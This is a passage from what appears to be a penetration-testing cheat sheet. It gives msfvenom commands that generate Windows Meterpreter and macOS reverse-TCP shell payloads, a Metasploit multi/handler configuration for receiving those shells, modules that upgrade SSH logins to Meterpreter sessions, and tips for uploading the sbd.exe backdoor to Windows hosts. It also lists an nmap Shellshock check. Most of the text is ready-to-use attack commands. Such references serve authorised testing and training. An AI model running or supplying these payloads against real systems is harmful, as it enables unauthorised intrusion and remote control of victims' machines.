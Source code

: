 {% highlight shell-session %}
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
{% endhighlight %}

- *Mac Based Shellcode*

{% highlight shell-session %}
  msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
{% endhighlight %}

## **Handlers**

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

{% highlight shell-session %}
  use exploit/multi/handler
  set PAYLOAD <Payload name>
  set LHOST <LHOST value>
  set LPORT <LPORT value>
  set ExitOnSession false
  exploit -j -z
{% endhighlight %}

Once the required values are completed the following command will execute your handler – `msfconsole -L -r`

- SSH to Meterpreter: [got-ssh-creds-want-meterpreter-try-this](https://daemonchild.com/2015/08/10/got-ssh-creds-want-meterpreter-try-this/)

{% highlight shell-session %}
  use auxiliary/scanner/ssh/ssh_login
  use post/multi/manage/shell_to_meterpreter
{% endhighlight %}

- SBD.exe

    sbd is a Netcat-clone, designed to be portable and offer strong encryption. It runs on Unix-like operating systems and on Microsoft Win32. sbd features AES-CBC-128 + HMAC-SHA1 encryption (by Christophe Devine), program execution (-e option), choosing source port, continuous reconnection with delay, and some other nice features. sbd supports TCP/IP communication only.

    sbd.exe (part of the Kali linux distribution: /usr/share/windows-binaries/backdoors/sbd.exe) can be uploaded to a windows box as a Netcat alternative.

- Shellshock

  - Testing for shell shock with NMap

    {% highlight shell-session %}
      root@kali:~/Documents# nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/admin.cgi $ip
    {% endhighlight %}

  - git clone [shocker](https://github.com/nccgroup/shocker)
